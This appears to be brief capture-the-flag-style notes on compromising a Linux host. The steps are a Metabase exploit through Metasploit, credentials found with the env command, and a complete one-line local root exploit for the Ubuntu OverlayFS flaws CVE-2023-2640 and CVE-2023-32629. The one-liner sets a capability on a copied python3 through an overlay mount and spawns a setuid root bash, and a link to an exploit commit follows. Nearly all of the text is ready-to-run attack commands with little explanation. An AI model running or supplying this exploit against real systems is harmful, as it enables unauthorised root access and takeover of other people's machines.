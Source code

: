 
- Metabase exploit on metasploit
- Password and user
```bash
env
```
- To root 
```bash
uname -a
```

```bash
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("cp /bin/bash /var/tmp/bash && chmod 4755 /var/tmp/bash && /var/tmp/bash -p && rm -rf l m u w /var/tmp/bash")'
```

https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629/commit/20b592699095066a7e817f9092c68bfbc50736a7